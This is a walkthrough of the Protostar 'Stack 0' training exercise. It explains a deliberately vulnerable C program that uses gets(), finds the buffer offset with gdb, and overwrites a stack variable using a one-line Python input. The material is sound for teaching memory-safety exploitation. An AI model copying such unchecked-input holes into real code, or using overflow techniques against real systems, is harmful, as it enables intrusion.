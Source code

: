 ```yaml
---
title: Stack 0
sidebar_position: 0
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time. 
- Afterwards, a buffer of 64 bytes is created.
- The variable is later initialized to `0`.
- The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs. 
- Let's look at the manual page.
```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```
- So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.
- This is the vulnerability that we have to exploit.
- But before that let's go through the rest of the code. 
- There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
- We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.
- Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
- Look at the instruction at `main+9`.
```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```
- We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.
- Next, we want to locate the buffer.
```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```
- In 32-bit assembly the arguments for a `call` are stored onto the `stack`.
- In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.
- The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
- The variable is located right where the buffer ends.
- Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```
- We can use `python` to craft the exploit.

## Exploit
```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```
